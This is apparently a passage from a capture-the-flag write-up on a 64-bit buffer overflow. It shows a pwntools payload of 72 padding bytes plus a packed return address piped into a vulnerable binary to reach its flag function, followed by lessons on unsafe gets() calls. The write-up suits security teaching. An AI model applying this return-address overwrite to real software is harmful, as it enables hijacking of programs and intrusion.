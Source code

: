 - Craft the payload using python

```terminal
$ python 
>>> from pwn import *
>>> print ('A'*72)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>>> p64(0x0000000000401236)
b'6\x12@\x00\x00\x00\x00\x00'
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00" > payload.txt
```

3. Run the Program Locally Using Payload

```terminal
$ cat payload.txt| ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
U got the flag
```
- **Differences on Remote Machine**
For some reason, the crafted return address does not work on the remote machine provided. The challenge hint suggests changing the return address to the one after the push instruction in the flag function.

## Conclusion

In this challenge, we successfully exploited a buffer overflow vulnerability in a 64-bit program to redirect the program's execution flow to the flag function, thereby retrieving the flag. The process involved identifying the overflow vulnerability due to the use of the unsafe gets function, calculating the correct offset to overwrite the return address, and crafting a payload to change the return address to the flag function's address.

Key takeaways include:

Identifying Vulnerabilities: Understanding the dangers of functions like gets which do not check buffer boundaries.
Calculating Offsets: Utilizing tools like GDB and Python to find precise offsets for buffer overflows.
Crafting Payloads: Creating payloads that exploit vulnerabilities to achieve desired outcomes, such as redirecting execution flow.
This challenge highlights the importance of secure coding practices and the necessity of thorough vulnerability testing to prevent exploitation.

